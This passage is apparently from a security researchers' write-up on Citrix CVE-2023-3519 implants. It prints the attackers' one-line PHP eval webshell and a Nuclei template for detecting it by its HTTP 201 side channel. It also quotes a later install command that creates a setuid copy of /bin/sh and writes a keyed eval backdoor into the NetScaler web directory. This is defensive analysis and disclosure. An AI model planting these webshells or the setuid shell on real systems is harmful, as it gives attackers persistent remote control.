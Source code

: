```php
<?php http_response_code(201); @eval($_POST[5]);
```
<span class="centered-text">Listing 1: Citrix Webshell version 1</span>

This first version of the webshell (illustrated in Listing 1) was a simple PHP `eval` backdoor that returns an HTTP 201 (created) response code and passed the value of POST parameter `5` to PHP `eval()`. The mistake here is that this backdoor introduces a sidechannel: if the endpoint does not exist, it returns HTTP 404 as the response code. Due to the order of the statements, it will return HTTP 201 regardless of the `eval()` call succeeding. This allowed us to scan for HTTP 201 as the response code.

```yaml
id: citrix-implant-cve-2023-3519

info:
  name: Citrix CVE-2023-3519 Implant Scan
  author: DIVD-NL
  severity: critical

http:
  - method: POST
    path:
      - "{% raw %}{{BaseURL}}/logon/LogonPoint/uiareas/{{uri}}{% endraw %}"
    
    payloads:
      uri:
        - "{% raw %}{{{% endraw %}filename:common_php_filenames.txt{% raw %}}}{% endraw %}"

    matchers:
      - type: status
        status:
          - 201
```
<span class="centered-text">Listing 2: Nuclei scanning template for the Citrix Webshells</span>

This backdoor was included under filenames that match the most [common PHP filenames](https://gitlab.com/kalilinux/packages/seclists/blob/b83a756bb2c06f94c03e525326e8480981b58a9c/Discovery/Web-Content/Common-PHP-Filenames.txt), among which `prod.php`, `log.php`, `logout.php`. This allowed us to iterate over the list of filenames and query the target system for the presence of the backdoor. The downside of this is that, given each system would have to accept a few thousand requests from us, we had to diffuse scan targets and scan over a prolonged time as to not overwhelm systems with our scanning. The scan template is shown in Listing 2.

On July 21st, however, the implant moved. There was a sudden drop in vulnerable devices as the old implants seemed to have been used to deploy a newer, more 'sophisticated' implant. As shown in Listing 3, instead of returning an HTTP 201 response, the implant now returns an empty HTTP 404 and introduced a key to the `eval()` call. This functions as a basic authentication mechanism.

```bash
cp /bin/sh /var/nss && chmod +s /var/nss && mkdir /netscaler/ns_gui/epa/scripts/[redacted]; 
echo '<?php  http_response_code(404); @eval($_POST[redacted]);' > 
/netscaler/ns_gui/epa/scripts/[redacted]/[redacted].php
```
<span class="centered-text">Listing 3: Evolution of the Citrix Webshell to further obfuscate</span>
